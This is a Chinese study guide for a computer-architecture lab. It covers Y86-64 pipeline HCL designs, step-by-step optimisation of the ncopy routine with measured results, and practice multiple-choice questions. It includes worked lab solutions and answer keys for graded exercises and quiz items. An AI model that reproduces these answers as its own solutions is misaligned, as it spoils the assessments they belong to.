d_bubble 的注释说，预测错误时直接插入气泡，因为此时 F 中的指令也是错误的，下一周期进入 D 时要被取消。所以 d_bubble 的一个空是 branch_mispred，另一个是 ret_harzard。问题在于哪个放在前面。&& 的优先级高于 ||，A || B && !d_stall 表示 A || (B && !d_stall)：放在后面的那个才受 !d_stall 约束。注释最后一句说“ret_harzard 和 d_stall 不可能同时为真”，照这句话，ret_harzard 不需要约束，于是很自然地填成：
bool d_bubble = ret_harzard || branch_mispred && !d_stall; // 错误这样填，grader 的 ret-hazard.ys 会失败。这个测试程序正是第 3.7 节举的例子：mrmovq 0(%rbx), %rsp 后面紧跟 ret（图 6（b））。周期 3 中 ret 在 D 级，加载/使用冒险要求 D 暂停，ret 冒险又要求 D 插入气泡，两个控制同时作用于 D，ret 被气泡抹掉，再也不会执行。正确的做法是暂停优先：ret 留在 D 中，等 %rsp 读出之后，下一周期再按 ret 冒险处理。所以受约束的应当是 ret_harzard：
bool d_bubble = branch_mispred || ret_harzard && !d_stall; // 正确branch_mispred 为什么不需要约束？branch_mispred 要求 E 级是 jXX，load_use_harzard 要求 E 级是 mrmovq 或 popq，两者不可能同时成立。写成 ret_harzard && !d_stall || branch_mispred && !d_stall 也对，只是多了一个不起作用的条件。这两种写法都已用 grader 验证通过。
f_pc 中 call 的位置#
s4b 模板的 f_pc 中，D.icode == CALL : D.valC 又回到了第一行。这与 s3c 的结论并不矛盾：M 级纠正预测错误时，D 已经在上一个周期被换成了气泡，不可能是错误路径上的 call；ret 在 M 级时，D 也已经是 ret 冒险插入的气泡。
s4b 的关键路径#
cond 的输出只进入 M 寄存器之后，剩下的最长路径是 alu → reg_cc → cond 和 dmem → imem → ialign：后者是因为 ret 仍在 M 级读出返回地址，同一周期就用来取指。两条路径都是 3 个部件，ac = 4。第四部分会再回到这两条路径。
s4c：valP 并入 valA#
s4c 的行为与 s4b 完全相同，只是节省了流水线寄存器的位数：call 和 jXX 都不需要 valA（它们不读 rA），于是在 D 级就把 valP 放进 valA，E、M 两级寄存器中的 valP 字段都删掉了。模板中 d_valA 的第一行已经给出：
u64 d_valA = [
D.icode in { CALL, JX } : D.valP; # 借用 valA 传递 valP（已给出）
d_srcA == U8_PLACEHOLDER : e_valE;
d_srcA == U8_PLACEHOLDER : U64_PLACEHOLDER;
1 : reg_file.valA;
];
// We've feed D.valP into d_valA. Thus M.valP is not needed.
u64 mem_data = U64_PLACEHOLDER;其余的空与 s4b 相同，只有两处因为 valP 不在了而要换：f_pc 中纠正预测错误的地址从 M.valP 换成 M.valA（同样要把 !e_cnd 改成 !M.cnd）；mem_data 是写入内存的数据，原来要在 valA 和 valP 之间选择（rmmovq、pushq 写 valA，call 把返回地址 valP 压栈），现在 call 的 valP 也在 valA 中，统一为 M.valA。这就是教材 PIPE 中的“Select A”逻辑。
3.9 pipe_std：教材的五级 PIPE#
pipe_std 再拆出写回级 W，就是教材第 4.5 节的 PIPE，完整给出，没有空。它的 f_pc 只剩两种纠正情形（M.icode == JX && !M.cnd : M.valA 和 W.icode == RET : W.valM），call 的目标改由 f_pred_pc 处理（f_icode in { JX, CALL } : f_valC）：call 总是跳到 valC，这个“预测”永远正确。此外还多了 m_bubble、w_stall，在出现异常状态码时停止后续指令改变状态。与 s4c 相比，ret 的返回地址改从 W.valM 取，ret 的代价变成 3；dmem → imem 这条路径也随之切断，最长路径只剩 alu → reg_cc → cond，ac 仍是 4。转发的来源变成 5 个：e_valE、m_valM、M.valE、W.valM、W.valE，顺序从新到旧。
和 s4c 相比，pipe_std 的 ac 没有降低，冒险的代价反而更大，周期数更多。在本 Lab 的 ac 定义下，单看这一步，第五级并不划算：第 4.2 节会看到，用原始的 ncopy 测量，s4c 的 c 值比 pipe_std 略小。但 pipe_std 只剩一条最长路径，这一点在第 4.6 节会变得重要。另外，在 hardware pipe 中，来自 W 级的两条转发与 s4a 的 m_valM 一样是多余的：实测删去后 pipe_std 仍能通过全部测试。教材保留它们，是因为教材的寄存器文件在时钟上升沿才写入。
常见问题：为什么不直接在 D 级判断跳转方向？
条件码要到 E 级执行完前一条指令才确定，D 级无法知道。可以做的只有两件事：猜一个方向先取（预测），或者把判断结果尽快用起来（像 s3c 那样在 E 级当周期纠正）。后者会把 cond 拉进取指的路径，ac 变长；前者在猜错时要多付周期。s4b 选择了缩短 ac、多付周期，Part C 的评分方式决定了这样做划算。
第四部分 Part C：优化 ncopy#
4.1 目标函数#
ncopy 把 len 个 8 字节整数从 src 复制到 dst，返回其中正数的个数。参数按调用约定放在 %rdi（src）、%rsi（dst）、%rdx（len），返回值放在 %rax。原始代码是最直接的翻译：
ncopy: xorq %rax, %rax # count = 0
andq %rdx, %rdx # len <= 0 ?
jle Done
Loop: mrmovq (%rdi), %r10 # val = *src
rmmovq %r10, (%rsi) # *dst = val
andq %r10, %r10 # val <= 0 ?
jle Npos
irmovq $1, %r10
addq %r10, %rax # count++
Npos: irmovq $1, %r10
subq %r10, %rdx # len--
irmovq $8, %r10
addq %r10, %rdi # src++
addq %r10, %rsi # dst++
andq %rdx, %rdx # len > 0 ?
jg Loop
Done: ret评分看 c = cpe + 2 × ac（第 1.1 节）：c ≤ 15 得满分 60，15 < c ≤ 16 得 57。先把这个目标翻译成对 cpe 的要求：
表 12 不同 ac 下，满分和 57 分对 cpe 的要求
| ac | 满分（c ≤ 15） | 57 分（c ≤ 16） |
|---|---|---|
| 8（SEQ） | 不可能 | 不可能 |
| 4 | cpe ≤ 7 | cpe ≤ 8 |
| 3 | cpe ≤ 9 | cpe ≤ 10 |
cpe 的算法也要特别注意：它是 64 个长度上“周期数 ÷ 长度”的算术平均，不是总周期数除以总长度。于是短数组的权重很大：最终版本中，len = 1 时周期数是 43，单这一项就给 cpe 贡献了 43 ÷ 64 ≈ 0.67；len = 1～8 这 8 项合计贡献 2.41，占最终 cpe（8.90）的四分之一以上。只优化长数组的主循环是不够的，函数入口的固定开销和处理余数的代码同样重要。
4.2 先用手头的东西：Part B 的架构#
Part B 已经做出了一系列架构。最朴素的想法是：程序先不动，把每个架构复制成 ncopy.hcl，看哪个最好。
表 13 原始 ncopy 在各架构上的 cpe 与 c（实测）
| 架构 | cpe | ac | c | 说明 |
|---|---|---|---|---|
| seq_std | 12.82 | 8 | 28.82 | 没有冒险，周期最少，但 ac 最大 |
| pipe_s2 | 12.89 | 7 | 26.89 | 同样没有冒险 |
| pipe_s3a | 18.65 | 6 | 30.65 | 没有转发，数据相关处处暂停 |
| pipe_s3b | 15.11 | 6 | 27.11 | 每个跳转停 1 个周期 |
| pipe_s3c | 13.73 | 6 | 25.73 | 预测错误的代价只有 1 |
| pipe_s4a | 14.87 | 6 | 26.87 | 加载/使用开始有代价 |
| pipe_s4b/s4c | 15.56 | 4 | 23.56 | ac 降到 4 |
| pipe_std | 15.71 | 4 | 23.71 | ret 的代价更大 |
seq_std 上的 12.82 与实验说明给出的基准值一致。从表中可以读出两件事。第一，ac 每降 1，c 就少 2，而各个流水线之间 cpe 的差别只有一两个周期，所以首先要选 ac 小的架构，ac = 4 的 s4b、s4c、pipe_std 是候选。第二，即使选 ac = 4，c 也在 23 以上，cpe 还要从 15.6 降到 7 以下，差得很远，程序必须大改。
Part B 中写过的另一样东西是 iopq，但它只加在了 seq_full 上，ac 是 8。要用它，就得把它移植到一个流水线架构中。做法与第 3.1 节相同，只是信号名换成流水线版本的：取指阶段的 instr_valid、need_regids、need_valC 中加入 IOPQ（读 f_icode），d_srcB、d_dstE 取 rB（读 D.icode），aluA 取 E.valC、aluB 取 E.valB、alufun 取 E.ifun、set_cc 中加入 IOPQ（读 E.icode）。下面先以最熟悉的 pipe_std 为基础，加上 iopq，记作“std + iopq”；第 4.5 节再比较 s4c。加上 iopq 不改变 ac，仍是 4。
4.3 第 11 讲之前的办法#
先看看不借助后面的课程，能把 cpe 降到多少。原始循环处理一个元素要执行 11 或 13 条指令，再加上冒险的周期。能下手的地方有三处：常数运算、加载/使用暂停、条件跳转。
用 iaddq 合并常数运算#
原始循环中有 7 条指令是 irmovq 加 addq/subq 形式的常数运算。iaddq 把每一对合并成一条，而且它本身设置条件码，循环末尾的 andq %rdx, %rdx 也可以省掉：
Loop: mrmovq (%rdi), %r10
rmmovq %r10, (%rsi)
andq %r10, %r10
jle Npos
iaddq $1, %rax # count++
Npos: iaddq $8, %rdi # src++
iaddq $8, %rsi # dst++
iaddq $-1, %rdx # len--，同时设置条件码
jg Loopcpe 从 15.71 降到 12.17。iaddq $-1, %rdx 必须是循环中最后一条修改条件码的指令，jg 才能用它的结果，所以把它放在 src、dst 的更新之后。如果只做替换、保留 andq %rdx, %rdx，cpe 是 13.17，每个元素多执行一条指令，cpe 正好多 1。
消除加载/使用暂停#
循环的头两条是 mrmovq (%rdi), %r10 和 rmmovq %r10, (%rsi)：后者要用前者刚读出的值，在 pipe_std 上正是加载/使用冒险，每个元素停 1 个周期（图 7（a））。第 11 讲给出的办法是调度：在加载和使用之间插入一条与它们无关的指令。等使用者到达 D 级时，mrmovq 已经在 M 级，读出的值可以通过 m_valM 转发，不必暂停（图 7（b））。循环中正好有现成的无关指令，src、dst 的更新可以提前：
Loop: mrmovq (%rdi), %r10
iaddq $8, %rdi # 插在加载与使用之间
rmmovq %r10, (%rsi)
iaddq $8, %rsi
andq %r10, %r10
jle Npos
iaddq $1, %rax
Npos: iaddq $-1, %rdx
jg Loopandq %r10, %r10 也读 %r10，它与 mrmovq 之间已经隔了三条指令，不受影响。cpe 从 12.17 降到 11.17，正好少 1：每个元素恰好省掉一次暂停。
图 7 pipe_std 上的加载/使用：紧接着使用要暂停（a），中间插入一条无关指令就不必暂停（b）
改变条件跳转的方向：没有用#
现在循环中唯一与数据有关的开销是 jle Npos。pipe_std 总是预测跳转：元素不是正数时跳转，预测正确，没有代价；元素是正数时不跳转，预测错误要付 2 个周期，再加上 iaddq 本身 1 个周期，比非正数多 3 个周期。一个元素的周期数是 8 + 3·[元素为正]。
能不能把跳转的方向反过来，让正数走“预测正确”的那一边？把计数放到循环外的一个小块里：
andq %r10, %r10
jg Pos # 正数：跳转，预测正确
Npos: iaddq $-1, %rdx
jg Loop
ret
Pos: iaddq $1, %rax
jmp Npos实测 cpe 从 11.17 变成 11.56，反而更慢。算一下就明白：正数要多执行 iaddq 和 jmp 两条，非正数在 jg 处预测错误，付 2 个周期，两种情况都比原来的“非正数”多 2 个周期，每个元素一律是 10 个周期。原来的写法是 8 + 3·[元素为正]，只有正数的比例超过 2/3 时，反过来才划算。
grader 的测试数据中正数占多少？可以这样测：在原来写法的正数分支上多加一条无关的 iaddq $0, %r11，每个正数恰好多 1 个周期，两次评分的总周期数之差就是正数的个数。实测 64 个长度共 2080 个元素中有 1049 个正数，约占一半。所以原来的方向是对的。
用条件传送计数：同样没有用#
另一个思路是彻底去掉这个条件跳转，用第三章讲过的条件传送（cmovXX）计数：
rrmovq %rax, %r11
iaddq $1, %r11 # count + 1
andq %r10, %r10
cmovg %r11, %rax # 正数才更新 count没有了跳转，就没有预测错误，每个元素的周期数与数据无关。但它要多执行两条指令：原来的 andq、jle 加上正数时的 iaddq，换成了 rrmovq、iaddq、andq、cmovg 四条。实测 cpe 也是 11.56，与改变方向的版本完全相同，每个元素同样是 10 个周期。条件传送省下的是预测错误的周期，付出的是每个元素都要执行的额外指令，只有预测错误的代价足够大、或者正数足够多时才划算。
走到这里还差多少#
第 11 讲之前的办法到此为止：cpe = 11.17，c = 19.17，得 0 分。看一下现在的循环：9 条指令中，真正做事的只有 mrmovq、rmmovq、andq、jle 四条（加上正数时的 iaddq），其余 4 条（更新 src、dst、len 和 jg）都是循环控制。按表 12，ac = 4 时 cpe 要降到 7，相当于每个元素平均不到 7 个周期，而循环控制就占了 4 个。要把循环控制的开销摊薄，只能每次迭代处理多个元素，这就是第 14 讲的循环展开。
4.4 循环展开#
k 路展开#
每次迭代处理 k 个元素，循环控制的 4 条指令就由 k 个元素分摊。每两个元素为一组，交替使用 %r8、%r9，两条 mrmovq 连在一起，读出的值到 rmmovq 使用时已经隔了一条指令，同样不会有加载/使用暂停。以 8 路为例：
iaddq $-8, %rdx # 还有不少于 8 个吗
jl Rem
Loop8: mrmovq 0(%rdi), %r8
mrmovq 8(%rdi), %r9
rmmovq %r8, 0(%rsi) # 与读 %r8 的 mrmovq 隔了一条指令
rmmovq %r9, 8(%rsi)
andq %r8, %r8
jle S0
iaddq $1, %rax
S0: andq %r9, %r9
jle S1
iaddq $1, %rax
S1: ... # 偏移 16～56 的另外三组，写法相同
S7: iaddq $64, %rdi
iaddq $64, %rsi
iaddq $-8, %rdx
jge Loop8
Rem: ... # 剩下的 0～7 个进入循环之前先做 iaddq $-8, %rdx，循环条件写成 jge，表示“减去 8 之后仍不小于 0，就还有一整组 8 个”。循环结束后 %rdx 在 −8～−1 之间，加回 8 就是剩下的元素个数。
剩下的 0～k−1 个元素怎么办？最简单的是接一个一次处理一个元素的循环，即第 4.3 节调度后的循环。k 取多少？逐个试：
表 14 k 路展开、余数逐个处理的 cpe（std + iopq 实测）
| k | 2 | 4 | 8 | 16 |
|---|---|---|---|---|
| cpe | 9.85 | 9.18 | 9.20 | 9.77 |
| c（ac = 4） | 17.85 | 17.18 | 17.20 | 17.77 |
从 2 路到 4 路，cpe 下降明显；4 路和 8 路差不多；16 路反而变差。原因是两种开销此消彼长：k 越大，主循环中每个元素分摊的循环控制越少；但剩下的余数越多，最多 k − 1 个元素要走单元素循环，每个约 10 个周期。cpe 是 64 个长度的平均，余数的代价在每一个长度上都要付，在短数组上尤其显著：len = 15 时，8 路展开要逐个处理 7 个余数，总共 160 个周期，而 len = 16 只要 117 个。
4.5 余数的处理#
4/2/1 阶梯#
既然逐个处理余数太慢，就让余数也“展开”。8 路展开之后余数是 0～7，每个数都能写成 4、2、1 的组合：余数不少于 4 就处理一块 4 个，再看是否不少于 2，处理一块 2 个，最后看是否还剩 1 个。每一块各判断一次，最多 3 次判断，没有循环：
Rem: iaddq $8, %rdx # 余数 r = 0～7
jle Done
iaddq $-4, %rdx
jl No4 # r < 4
... # 4 个元素：两组，写法同主循环
iaddq $32, %rdi
iaddq $32, %rsi
jmp L2
No4: iaddq $4, %rdx # 恢复 r
L2: iaddq $-2, %rdx
jl No2
... # 2 个元素：一组
iaddq $16, %rdi
iaddq $16, %rsi
jmp L1
No2: iaddq $2, %rdx
L1: andq %rdx, %rdx # 还剩 1 个？
jle Done
mrmovq (%rdi), %r10
rmmovq %r10, (%rsi)
andq %r10, %r10
jle Done
iaddq $1, %rax
Done: ret处理完 4 个之后不需要再把 %rdx 加回 4：此时 %rdx = r − 4，恰好就是还剩的个数。图 8 比较了两种余数处理方法在 len = 1～24 上的总周期数。阶梯在余数为 3～7 时明显更快（len = 15 时从 160 降到 142），代价是 len = 1 时多了 4 个周期（43 比 39），因为要先经过“不少于 4”“不少于 2”两次判断。按 cpe 的算法，len = 1 的 4 个周期相当于 cpe 增加 0.06，而余数 3～7 带来的节省更多，总的 cpe 从 9.20 降到 8.90。
图 8 两种余数处理方法的总周期数（8 路展开，实测）
主循环和阶梯在 len 为 8 的倍数时完全相同，所以两条曲线在 8、16、24 处重合；len = 64 时都是 417 个周期。阶梯同样适用于其他展开路数，结果如下：
表 15 k 路展开、余数用阶梯处理的 cpe（std + iopq 实测）
| k | 2 | 4 | 8 | 16 |
|---|---|---|---|---|
| 余数逐个处理 | 9.85 | 9.18 | 9.20 | 9.77 |
| 余数用阶梯 | 9.76 | 9.08 | 8.90 | 8.95 |
有了阶梯，k 增大时余数不再拖后腿，8 路成为最好的选择；16 路的主循环更省，但阶梯多一级判断，短数组上的固定开销更大，两者抵消。汇编后的 8 路版本约 0.8 KB，远小于 4 KB 的限制。
还差多少#
现在 cpe = 8.90，c = 16.90，得 39.88 分。离满分要求的 cpe ≤ 7 还差 1.9，能不能继续压？可以粗略估计一下极限。把总周期数近似成“每次调用的固定开销 + 每个元素的周期数 × len”，用 len = 8（78 个周期）和 len = 64（417 个周期）两个点解出：每个元素约 6.05 个周期，固定开销约 30 个周期。固定开销对 cpe 的贡献是 30 乘以 1/len 在 1～64 上的平均值（约 0.074），约 2.2；即使余数的处理完全不花时间，cpe 也有 6.05 + 2.2 ≈ 8.2。而每个元素至少要执行 mrmovq、rmmovq、andq、jle 四条指令，再加上正数时约 3 个周期的代价（平均 1.5），已经是 5.5 个周期，主循环再省也省不出 1.9。ac = 4 时，满分几乎不可能。
换一个 ac = 4 的架构#
还有一个办法是换架构。s4c 也是 ac = 4，但它只有四级，ret 的代价是 2（pipe_std 是 3），整个程序结束时也少一级要排空。把 iopq 同样移植到 s4c 上（记作“s4c + iopq”，用 grader arch -i 检查通过），各个版本的程序都快一些：
表 16 同样的程序在两个 ac = 4 架构上的 cpe（实测）
| 程序 | std + iopq | s4c + iopq |
|---|---|---|
| 原始代码 | 15.71 | 15.56 |
| iaddq，调度 | 11.17 | 11.02 |
| 8 路展开，余数逐个处理 | 9.20 | 9.06 |
| 8 路展开，余数用阶梯 | 8.90 | 8.75 |
每一行都差约 0.15，正好是每次调用少 2 个周期（2 × 0.074）。s4c + iopq 上 c = 16.75，得 42.69 分，比 pipe_std 多 3 分，但仍然远离 57 分要求的 c ≤ 16。剩下的路只有一条：把 ac 从 4 降到 3。
4.6 找出关键路径并拆开#
是哪条路径#
降 ac 之前先要知道关键路径在哪里。./bin/ysim -A ncopy -I 按层列出每个部件和信号所在的层次。std + iopq 的输出中，与部件有关的是：
lv.2: alu imem dmem reg_file ...
lv.3: ialign pc_inc reg_cc ...
lv.4: cond ...只有 cond 在第 4 层，往回找它的输入：cond 读 reg_cc 的输出 cc，reg_cc 读 alu 的结果。所以唯一一条 3 个部件的路径是 alu → reg_cc → cond（图 9（a））。这条路径的含义是：本周期 E 级的 OPq 或 iopq 算出结果，reg_cc 据此更新条件码，同一周期 cond 又读这个条件码判断跳转方向。本 Lab 把 reg_cc 建模成一个组合部件，它的输出 cc 在同一周期内就依赖于 alu，所以这三个部件被串在了一起。
图 9 四种架构中最长的组合路径（红色）：两端的灰框是流水线寄存器
要缩短关键路径，办法只有一个：在路径中间插入一个寄存器，把它切成两段。Part B 的 s4b 就是这样做的：把 cond 的输出 e_cnd 锁存进 M.cnd，切断了 cond → imem。现在要切的是 alu → reg_cc → cond，有两个位置可选：cond 的输出一侧，或者 cond 的输入一侧。
第一个想法：把条件判断推迟到 M 级#
仿照 s4b，把条件码锁存进 M 级寄存器，让 cond 在 M 级读它。这样 alu → reg_cc 与 cond 之间隔了 M 寄存器，看上去切开了。但 cond 的结果是要用的：纠正预测错误的 f_pc 要用跳转方向选择取指地址。若 f_pc 直接用 M 级本周期算出的方向，就出现了新的路径 cond → imem → ialign，仍是 3 个部件，ac 仍是 4。若再把方向锁存一级，等下一周期再纠正，预测错误的代价又要多 1 个周期：ncopy 中每个正数都要付一次预测错误，按约一半是正数估计，cpe 大约要增加 0.5。
这里的教训是：ac 只看部件之间的连接，不看代码写在文件的哪一段。把 cond 的代码挪到“M 级”那一段，如果它的输出在同一周期就进入 imem，依赖图上照样是一条长链。每改一次，都要用 -I 核对。
第二个想法：在输入一侧锁存条件码#
再仔细看 cond 的用途：E 级中用到 cond 的只有 jXX 和 cmovXX，它们本身都不设置条件码，需要的是前面的指令设置之后的值。这个值在上一个周期结束时就已经确定了，没有必要在本周期从 alu 经 reg_cc 现算出来。所以可以把条件码锁存进 E 级寄存器，让 cond 读寄存器中的副本：
stage e { ..., cc: ConditionCode = CC_INIT } # 新增字段，初值只能写 CC_INIT
ConditionCode e_cc = E.cc;
@set_input(cond, { condfun: e_ifun, cc: e_cc }); # cond 读寄存器中的副本
@set_stage(e, { ..., cc: cc }); # 每个周期把 reg_cc 的输出锁存进来这样 cond 的输入来自流水线寄存器，alu → reg_cc → cond 被切成 alu → reg_cc（进入 E 寄存器）和 cond（从 E 寄存器出发）两段（图 9（c））。-I 的输出变成：
lv.2: reg_file imem alu dmem cond ...
lv.3: ialign pc_inc reg_cc ...最高只有第 3 层，ac = 3。所有指令的行为和周期数都不变，len = 64 前后都是 417 个周期，cpe 仍是 8.90，c = 14.90，得满分。
为什么值不会错？E 寄存器每个周期都锁存 reg_cc 当前的输出，也就是“到这个周期为止的最新条件码”。下一个周期进入 E 级的指令读到的，正是它前面所有指令设置之后的条件码。E 级插入气泡时，cc 字段被复位成 CC_INIT，但气泡不使用条件码；气泡所在的周期照常锁存 reg_cc 的输出，气泡之后的指令仍然读到正确的值。写的时候有两个语法上的细节：ConditionCode 类型的初值只能写 CC_INIT，写 0 或 Aok 都会报错；@set_input、@set_stage 冒号右边只能写信号名，所以要先定义 e_cc，不能直接写 E.cc。
和输出一侧相比，在输入一侧插寄存器没有任何周期上的代价。原因是 cond 的输入本来就“早就准备好了”：前一条指令设置的条件码在上一个周期末已经确定，晚一拍锁存不影响任何人。而 cond 的输出（跳转方向）是本周期才算出的，推迟它就要推迟纠正预测错误。
为什么 s4c 上不行#
既然 s4c + iopq 的 cpe 更小，能不能在 s4c 上做同样的修改？实测：锁存条件码之后，s4c + iopq 仍能通过 grader arch -i，cpe 仍是 8.75，但 ac 仍是 4，c = 16.75。-I 的输出给出了原因：
lv.2: cond dmem alu m_valM ... f_pc ...
lv.3: reg_file reg_cc imem ...
lv.4: ialign pc_inc ...s4c 有两条并列最长的路径（图 9（b））：alu → reg_cc → cond，以及 dmem → imem → ialign。后者来自 ret：ret 在 M 级从栈中读出返回地址 m_valM，同一周期就用它作为 f_pc 去取指。锁存条件码只切断了前一条，后一条还在（图 9（d）），ac 仍是 4。要切断它，就要让 ret 等到下一级再用返回地址，也就是再拆出一级 W，用 W.valM 取指，这正是 pipe_std 的做法。第 3.9 节说过，单看 Part B 的原始架构，第五级并不划算；到了这里才看出它的价值：pipe_std 只剩一条最长路径，切断它，ac 就能降到 3。
降 ac 的时候，要用 -I 看清楚是哪几条路径在并列最长，每一条都要切断，ac 才会下降。
4.7 小结与延伸#
图 10 把每一步的 cpe 和 2 × ac 叠在一起，红色虚线是 15、16、19 三个分数线。前五步都在降 cpe，最后一步降 ac；只降 cpe，c 最低停在 16.9 附近，只有把 ac 降到 3 才能越过 15。
图 10 Part C 每一步的 c 值（实测）
表 17 Part C 的全部尝试（实测）
| 版本 | cpe | ac | c | 得分 | 结论 |
|---|---|---|---|---|---|
| 原始代码，std + iopq | 15.71 | 4 | 23.71 | 0 | |
| 用 iaddq，保留 andq | 13.17 | 4 | 21.17 | 0 | |
| 用 iaddq，删去 andq | 12.17 | 4 | 20.17 | 0 | |
| 调度，避开加载/使用暂停 | 11.17 | 4 | 19.17 | 0 | 有效 |
| 改变条件跳转的方向 | 11.56 | 4 | 19.56 | 0 | 更慢 |
| 条件传送计数 | 11.56 | 4 | 19.56 | 0 | 更慢 |
| 8 路展开，余数逐个处理 | 9.20 | 4 | 17.20 | 34.13 | 有效 |
| 8 路展开，余数用阶梯 | 8.90 | 4 | 16.90 | 39.88 | 有效 |
| 同上，s4c + iopq | 8.75 | 4 | 16.75 | 42.69 | 仍差得远 |
| 同上，s4c + iopq 并锁存条件码 | 8.75 | 4 | 16.75 | 42.69 | ac 不变 |
| 同上，std + iopq 并锁存条件码 | 8.90 | 3 | 14.90 | 60 | 满分 |
还可以继续尝试的方向有：对 len 很小的情况单独写分支，减少入口的判断；调整阶梯的顺序，让更常见的余数走更短的路径。在 ac = 3 的架构上，c 已经比 15 低了 0.1，这些改进只是锦上添花。
第五部分 测验题型与单选例题#
学期末的 Lab 测验是纸笔考试，全部是单选题，每个实验 5 题、每题 2 分。Arch Lab 在纸上能考的内容很多：Y86-64 的编码和程序的结果、HCL 信号的写法、一段程序在某个架构上的周期数、关键路径与 ac、ncopy 的优化。2025 年 Arch Lab 的 5 道题，分别考 iopq 要在哪些 HCL 信号中加入 IOPQ、从 SEQ 到 pipe_std 的演化中冒险的产生与解决、两段 ncopy 循环的指令调度孰优孰劣、Part C 的评分公式 c = cpe + 2 × ac 下的优化策略，以及根据 ysim -I 输出的 propagate order 判断哪项改动能降低 ac。
这些题大多可以用两张表解决：第 3 部分各架构的冒险代价表，以及第 4.6 节的关键路径分析。数周期时先数实际执行的指令条数 n，k 级流水线没有冒险时需要 n + k – 1 个周期，再逐处加上冒险的代价；判断 ac 时找出所有并列最长的组合逻辑路径，看改动切断了哪一条。本部分的周期数和 ac 都是用 handout 的工具实测的结果（sim/cycles.sh、ysim -I），干扰项按代价表推算。
5.1 Y86-64 的编码与程序#
例 1（单选）mrmovq 16(%rdi), %r9 的机器码是：
A. 50 97 00 00 00 00 00 00 00 10
B. 50 79 10 00 00 00 00 00 00 00
C. 50 97 10 00 00 00 00 00 00 00
D. 50 9f 10 00 00 00 00 00 00 00
答案
C
mrmovq 的指令码为 5、功能码为 0；寄存器字节中 rA 是目的寄存器 %r9（编号 9），rB 是基址寄存器 %rdi（编号 7）；位移 16 = 0x10 按小端法写 8 字节。B 把 rA、rB 的位置按汇编语法的书写顺序写反了，这是最常见的错误：mrmovq 的目的寄存器写在汇编的后面，在编码中却放在 rA。A 用了大端法。D 把基址写成了 F，那是没有基址寄存器的写法。
例 2（单选）下面的程序从 0x000 开始存放，标号 f 位于 0x100。jge f 这条指令的地址是：
A. 0x021 B. 0x020 C. 0x022 D. 0x01f
iaddq $-8, %rsp
mrmovq 16(%rdi), %r9
call f
popq %rbx
cmovle %rsi, %rax
jge f答案
A
各条指令的长度依次是 10（iaddq：指令字节、寄存器字节、8 字节常数）、10（mrmovq）、9（call：没有寄存器字节）、2（popq）、2（cmovle），累加得 33 = 0x21。D 是 cmovle 的地址；B 把 call 当成了 8 字节；C 给 call 多算了一个寄存器字节，当成了 10 字节。popq、pushq 只用寄存器字节的 rA，rB 填 F，但这个字节仍然存在。
例 3（单选）下面的 rsum_list 有两处错误：空链表时没有把 %rax 清零，%rbx 没有保存和恢复。对 0xd → 0xe0 → 0xf00 这个链表，它在 yis 中返回的 %rax 是：
A. 0 B. 0xfed C. 0xf00 D. 0x2d00
rsum_list:
andq %rdi, %rdi
je done
mrmovq (%rdi), %rbx
mrmovq 8(%rdi), %rdi
call rsum_list
addq %rbx, %rax
done: ret答案
D
每一层都把自己节点的值放进 %rbx，递归返回时 %rbx 已经被最深一层改成了 0xf00，所以三层都加上 0xf00，结果是 3 × 0xf00 = 0x2d00（yis 实测）。B 是正确的和 0xd + 0xe0 + 0xf00，只有保存了 %rbx 才能得到。C 是只加了一次的结果。A 是误以为“空链表时 %rax 没有清零”会让结果变成 0；实际上 yis 开始时所有寄存器都是 0，这个错误在 yis 中恰好看不出来，但它仍然违反了函数的语义。
5.2 HCL 信号#
例 4（单选）在 seq_full 中加入 iopq V, rB（计算 rB op V，写回 rB，设置条件码）。下列信号中，不需要加入 IOPQ 的是：
A. srcB B. srcA C. dstE D. aluB
答案
B
iopq 的格式与 irmovq 相同，rA 位置是 F，不读寄存器，所以 srcA 保持 RNONE，不用改（第 3.1 节的表）。它的运算与 OPq 相同：要读 rB（srcB）、把结果写回 rB（dstE）、让 rB 的值从 B 口进入 ALU（aluB），这三个信号都要加入 IOPQ。另外，need_regids、need_valC、aluA 的 valC 一行、alufun 和 set_cc 也都要加。判断的方法是对每个信号问一句“iopq 在这里像 irmovq 还是像 OPq”。
例 5（单选）pipe_s4a 中，加载/使用冒险的正确写法是：
A. E.icode in { MRMOVQ, POPQ } && E.dstE in { d_srcA, d_srcB }
B. E.icode in { MRMOVQ, POPQ } && E.dstM in { d_srcA, d_srcB }
C. E.icode in { MRMOVQ, RMMOVQ } && E.dstM in { d_srcA, d_srcB }
D. M.icode in { MRMOVQ, POPQ } && M.dstM in { d_srcA, d_srcB }
答案
B
当 E 级是一条从内存读数的指令（mrmovq 或 popq），而 D 级的指令又要用它读出的值时，就发生加载/使用冒险。读出的值写到 dstM，所以比较的是 E.dstM。A 比较 dstE：popq 的 dstE 是 %rsp，这样会把“使用 %rsp”误判为冒险，而真正的冒险反而漏掉。C 把 rmmovq 算了进去，它是写内存，不产生要转发的值。D 晚了一级：指令到了 M 级，读出的 m_valM 已经可以转发给 D 级，不需要暂停。这里不必写 d_srcA != RNONE，因为 mrmovq、popq 的 dstM 一定是真实的寄存器。
例 6（单选）某个四级流水线写成 bool d_bubble = ret_harzard || branch_mispred && !d_stall;。下面哪个指令序列会因此出错？
A. 两条连续的 ret
B. addq 之后紧跟一条预测错误的 jne
C. irmovq 后面紧跟 ret
D. mrmovq 0(%rbx), %rsp 后面紧跟 ret
答案
D
&& 比 || 先结合，这一行等价于 ret_harzard || (branch_mispred && !d_stall)：ret 冒险时不管 D 是否暂停都插入气泡。选项 D 的序列中，ret 在 D 级时，既是 ret 冒险，又因为要读 mrmovq 新读出的 %rsp 而处于加载/使用冒险；正确的处理是暂停，让 ret 留在 D 中，这一写法却把 D 换成了气泡，ret 就丢了。grader 的 ret-hazard.ys 测的正是这个序列。选项 B 中没有加载/使用冒险，d_stall 为假，写法的缺陷不会表现出来。选项 C 中 irmovq 的结果可以转发，也不需要暂停。选项 A 也不涉及暂停。正确写法是 ret_harzard && !d_stall || branch_mispred && !d_stall。
5.3 数周期#
例 7（单选）下面的程序在 pipe_std 上需要多少个周期？data 处的值为 5，第一个 jne 跳转，第二个 jne 不跳转。
A. 14 B. 11 C. 12 D. 13
irmovq data, %rdx
mrmovq (%rdx), %rax
addq %rax, %rbx
jne t
irmovq $1, %rcx
t: xorq %rcx, %rcx
jne u
halt
u: halt答案
A
